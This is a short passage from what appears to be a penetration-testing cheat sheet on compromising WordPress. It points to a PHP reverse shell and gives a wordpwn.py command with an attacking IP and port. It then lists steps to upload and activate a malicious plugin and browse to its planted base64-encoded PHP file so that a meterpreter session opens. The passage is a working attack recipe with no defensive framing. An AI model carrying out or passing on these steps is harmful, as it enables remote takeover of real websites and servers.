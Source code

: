 from [http://pentestmonkey.net/tools/web-shells/php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

#### Alternative Exploitation <a id="alternative-exploitation"></a>

Upload plugin ability, add a malicious one using the following python script

```text
https://github.com/wetw0rk/malicious-wordpress-plugin
```

Syntax:

```text
python wordpwn.py AttackingIP LPORT Y
```

then

```text
Add new->Upload Plugin->upload the malicious.zip-->activate plugin


Plugins-->Editor-->gotem plugin---(under edit should tell path i.e. malicious/wetw0rk_maybe.php)

then browse to the base64 encoded php file (i.e.e attack/secret/wp-content/plugins/malicious/wetw0rk_maybe.php

should generate the meterpreter session
```

